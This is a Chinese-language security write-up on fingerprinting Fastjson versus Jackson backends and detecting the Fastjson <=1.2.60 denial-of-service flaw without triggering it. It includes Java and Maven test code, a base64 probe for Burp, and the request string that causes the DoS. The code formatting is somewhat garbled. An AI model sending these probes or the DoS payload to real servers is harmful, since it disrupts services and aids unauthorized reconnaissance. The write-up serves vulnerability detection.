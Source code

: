 # Fastjson <=1.2.60 DoS漏洞无损检测+Fastjson与Jackson组建区分

> 原文：[https://www.zhihuifly.com/t/topic/2933](https://www.zhihuifly.com/t/topic/2933)

# Fastjson <=1.2.60 DoS漏洞无损检测+Fastjson与Jackson组建区分

## 一、漏洞简介

## 二、漏洞影响

Fastjson 1.2.60 以下版本

## 三、复现过程

针对Fastjson DoS 漏洞的检测，相对较好识别，但其需要发送 DoS 的请求包，就会有一个时间延迟，但是部分使用者或 SRC平台对 DoS 类漏洞持保守态度。

所以这里提出一种无损检测 Fastjson DoS 漏洞的方法。

首先有以下几种情况：

### 未知目标是否使用 Fastjson ，但站点有原始报错回显

如果站点有原始报错回显，可以用不闭合花括号的方式进行报错回显，报错中往往会有fastjson的字样

例如

![image](img/22ca12e3284473674b57066a29798343.png)

### 无回显，盲区分 Fastjson 和 Jackson

Java 系 Json 处理基本只有 Fastjson 和 Jackson。
由于 Jackson 相对比较严格, 这里可以很好分辨出 Fastjson 和 Jackson

如果请求包中的 json 如下:

{"name":"S", "age":21}

追加一个随机 key ,修改 json 为

{"name":"S", "age":21,"agsbdkjada__ss_d":123}

这里 Fastjson 是不会报错的, Jackson 因为强制 key 与 javabean 属性对齐,只能少不能多 key,
所以会报错,服务器的响应包中多少会有异常回显

Fastjson：

![image](img/faa1b883e6fdbe6865b095a7fe3fb88d.png)

Jackson：

![image](img/737d4cfe8da85d7776c2f0d233344270.png)

### 无损检测原理

已经知道目标使用的是 Fastjson ,可以用以下 poc 去检测是否存在 DOS 漏洞

Fastjson < 1.2.60 在取不到值的时候会填充 \u001a ,
在1.2.60 进行了修复, 对 \x 后面的字符进行是否为16进制允许字符 (0-9a-fA-F) 的校验,
所以这里就可以手动 padding ,构造一个特殊的字符串

\x\u001a\u001a

测试代码:

Main.java

```
import com.alibaba.fastjson.JSON; `public class Main {

public static void main(String[] args) {

String payload = “{“a”:”\x\u001a\u001a"}";

System.out.println(payload);

Object o = JSON.parseObject(payload);

System.out.println(o.getClass());

}

}` 
```

Fastjson < 1.2.60

pom.xml

```
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

```
&lt;groupId&gt;tophant&lt;/groupId&gt;
&lt;artifactId&gt;tcc&lt;/artifactId&gt;
&lt;version&gt;1.0-SNAPSHOT&lt;/version&gt; 
```

<dependencies>

<dependency>

<groupId>com.alibaba</groupId>

<artifactId>fastjson</artifactId>

<version>1.2.59</version>

</dependency>

</dependencies> `</project>` 
```

![image](img/2f70d63f4e0564ee74394369b057ee7b.png)

Fastjson == 1.2.60，可以看到报错

pom.xml

```
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

```
&lt;groupId&gt;tophant&lt;/groupId&gt;
&lt;artifactId&gt;tcc&lt;/artifactId&gt;
&lt;version&gt;1.0-SNAPSHOT&lt;/version&gt; 
```

<dependencies>

<dependency>

<groupId>com.alibaba</groupId>

<artifactId>fastjson</artifactId>

<version>1.2.60</version>

</dependency>

</dependencies> `</project>` 
```

![image](img/905f31059288f69865d412e75b81a56f.png)

### 使用 Burp 测试

在 Burp 中测试可以使用 : eyJhIjoiXHgaGiJ9 (base64解码)

当后端 Fastjson 版本小于 1.2.60 时，使用该请求包不会延时不会报错

![image](img/6d74e83ca0db2315aeac5e8078537084.png)

使用 {"a:"\x 进行请求就会发生 DOS

![image](img/f75e236265da98d5633b8b4fb655b38c.png)

## 四、参考链接

> https://blog.riskivy.com/%E6%97%A0%E6%8D%9F%E6%A3%80%E6%B5%8Bfastjson-dos%E6%BC%8F%E6%B4%9E%E4%BB%A5%E5%8F%8A%E7%9B%B2%E5%8C%BA%E5%88%86fastjson%E4%B8%8Ejackson%E7%BB%84%E4%BB%B6/